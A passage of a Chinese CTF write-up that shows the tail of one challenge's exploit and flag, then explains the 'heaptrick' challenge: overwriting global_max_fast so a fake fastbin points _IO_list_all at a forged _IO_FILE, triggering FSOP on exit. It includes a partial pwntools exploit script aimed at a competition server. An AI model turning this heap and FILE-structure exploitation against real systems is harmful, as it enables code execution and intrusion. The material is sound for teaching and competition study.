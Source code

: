 ~~~python
io.recv()
io.sendline(str(8))
io.recv()

io.sendline(p64(addr))
~~~

> WHUCTF{Bss_Overflow_And_File_Struct_Exploitation}

## heaptrick

进阶堆技巧+fsop，mark

打`global_max_fast` ，让`fastbin` 的最大大小变大，而free堆块后，系统根据fastbin大小的不同，在main_arena的fastbinY数组中填入被free堆块的地址。例如size=0x20的fastbin地址填在main_arena+8，0x30的fastbin地址填在main_arena+16……直到0x80的fastbin在main_arena+56。

> 设fastbinsize的堆块放在main_arena+offset位置，推出公式为：
>
> fastbinsize=2*(offset+8)

所以可以打到main_arena后面的某些数据，让其指向某个堆块。这里选择打`_IO_list_all` ，为`_IO_FILE`数组的头指针，位于main_arena+0xa00；

> 当系统执行exit(0)时调用`_IO_flush_all_lockp`函数，该函数寻找下一个`_IO_FILE`结构体，将调用该结构体vtable中的`_IO_OVERFLOW函数` (位于vtable+0x18处)，虚表见上

详情参考https://docs.qq.com/doc/DUGp2TFBBb1hFRm11?pub=1&dver=2.1.0

~~~python
from pwn import *
env=os.environ
env['LD_PRELOAD']='./heaptrick.so'
context.log_level='debug'
#r=process('./heaptrick')
r=remote('218.197.154.9',10003)
def add(size,cont):
    r.recvuntil('exit\n')
    r.sendline('1')
    r.recvuntil(':')
    r.sendline(str(size))
    r.recvuntil(':')
    r.sendline(cont)
def delete(idx):
    r.recvuntil('exit\n')
    r.sendline('2')
    r.recvuntil(':\n')
    r.sendline(str(idx))
def edit(cont):
    r.recvuntil('exit\n')
    r.sendline('3')
    r.recvuntil(':')
    r.sendline(cont)
#step 1:leak elfbase and libc
r.recvuntil('exit\n')
r.sendline('666')
elfbase=int(r.recvline()[:-1],16)-0x202040
bsscomment=elfbase+0x2020e0
success("elfbase:"+hex(elfbase))
add(0xa0,'0'*0xa0)#0
add(0xa0,'1'*0xa0)#1
fakefile=p64(0)*3+p64(1)+p64(0)*21+p64(bsscomment-0x18)
#fakesize=2*(&_IO_list_all-&main_arena+8)-0x10=0x1400
fakesize=0x1400
add(fakesize,fakefile)#2
delete(0)
add(0xa0,'2'*7)#0
r.recvuntil('2'*7+'\n')
~~~